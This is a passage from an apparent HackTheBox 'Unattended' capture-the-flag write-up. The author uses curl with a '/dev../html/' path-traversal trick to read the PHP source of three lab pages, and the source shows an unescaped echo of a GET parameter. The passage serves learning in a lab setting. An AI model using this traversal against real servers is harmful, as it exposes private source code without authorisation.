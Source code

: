 <hr>
## SQLI to LFI
<br> Now we have the actual file names, `about` for example (`/47c1ba4f7b1edf28ea0e2bb250717093.php `) :
![](/images/hackthebox/unattended/14.png)
<br> It's just the text and nothing else. We can also verify that there is nothing hidden by checking the `php` source of the three pages :
```
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev../html/47c1ba4f7b1edf28ea0e2bb250717093.php
<body class="container">
<div>
Hello <?php echo (isset($_GET['name'])) ? $_GET['name'] : "visitor" ; ?>,<br>
our Company is world wide leading expert about Nesting stuff.</div>
<div>
We can nest almost everything after or before anything based on your needs.<br>
Feel free to contact us with usual email addresses, our contact form is currently offline because of a recent attack.
</div>
</body>
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev../html/0f710bba8d16303a415266af8bb52fcb.php
<body class="container">
Hello <?php echo (isset($_GET['name'])) ? $_GET['name'] : "visitor" ; ?>,<br>

thanks for getting in touch with us!<br>
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.<br>
Please come back later.</br>
</body>
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev../html/787c75233b93aa5e45c3f85d130bfbe7.php
<body class="container">
<div>
<img src=787c75233b93aa5e45c3f85d130bfbe7.gif>
</div>
<div>
Hello <?php echo (isset($_GET['name'])) ? $_GET['name'] : "visitor" ; ?>,<br>
we are very sorry to show you this ridiculous page but we had to restore our website to 2001-layout.
</div>
```
